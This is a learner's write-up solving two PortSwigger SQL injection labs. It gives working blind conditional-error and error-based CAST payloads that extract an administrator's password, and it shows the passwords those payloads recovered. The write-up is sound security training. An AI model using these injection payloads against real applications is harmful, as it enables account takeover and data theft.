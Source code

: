 ##### Lab: Blind SQL injection with conditional errors

##### souce: <https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors>

* To solve the lab, log in as the administrator user.

> Important: The most important part of exploiting blind SQL injection by triggering conditional errors is using conditions to check whether the injected query is true or false. If the condition was true, the query returned false as *Internal Server Error*; otherwise, it returned true with no error display.

Solution:

This lab is so *hard*. I can't solve it by myself for the first time. This is my solution after referring to some write-up.
> The CASE expression goes through conditions and returns a value when the first condition is met (like an if-then-else statement). So, once a condition is true, it will stop reading and return the result. If no conditions are true, it returns the value in the ELSE clause.
> If there is no ELSE part and no conditions are true, it returns NULL.  
>  
>CASE  
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WHEN condition1 THEN result1  
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WHEN condition2 THEN result2  
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WHEN conditionN THEN resultN  
    ELSE result  
END;

From the hint, we know that *This lab uses an Oracle database*. We need to check the length of the password by using brute force, so the payload is `**' AND (SELECT CASE WHEN LENGTH(password)=§§ THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator')='NULL'--**`. Now, we knew the length was twenty characters. Continues, we only need to check each character as above lab with the same payloads to use brute force, the payload as `**' AND (SELECT CASE WHEN (SUBSTR((password), §§, 1)='§§')THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator')='NULL'--**`

We have password as *zypjctpkaux6b3igrrm6*

##### Lab: Visible error-based SQL injection

###### souce: <https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based>

* To solve the lab, find a way to leak the password for the administrator user, then log in to their account.

Solution:

> The CAST() function converts a value (of any type) into a specified datatype.  CAST(expression AS datatype(length))

To solve this lab, we need to observe the new error messages, which appear to be generated by the database. My solution is collabed with some write-up to explain some errors I get.

First, I test with payloads as `**' AND CAST((SELECT password FROM users WHERE username='administrator') AS int)--**`, and a new error appears as *Unterminated string literal started at position 95 in SQL SELECT \* FROM tracking WHERE id = '73iTx7DtmmtfiuBz' AND CAST((SELECT password FROM users WHERE'. Expected  char*. As you can see, the error only displays to *Where* and does not have the rest of the query, so we can infer that it had the limit character here. As it continues, we drop a cookie of *TrackingID* to free up some additional characters. After the payload is `**' AND CAST((SELECT password FROM users WHERE username='administrator') AS int)--**` and a new error as *ERROR: syntax error at end of input. Position: 97*, I think that *Where* is blocked in here. After removing *Where*, I have payload as `**' AND CAST((SELECT password FROM users) AS int)--**`, a new error as *ERROR: argument of AND must be type boolean, not type integer Position: 42*. It said we need a boolean statement after *AND*, so we have payload as `**1>CAST((SELECT password FROM users) AS int)--**`, and a new error is *ERROR: more than one row returned by a subquery used as an expression* means more than one row in table user. We only need to get one row, so we have payload as *' AND 1>CAST((SELECT password FROM users LIMIT 1) AS int)--*, and we get a password from a new error: *ERROR: invalid input syntax for type integer: "f43nlf4ci637noq11s2b"*.
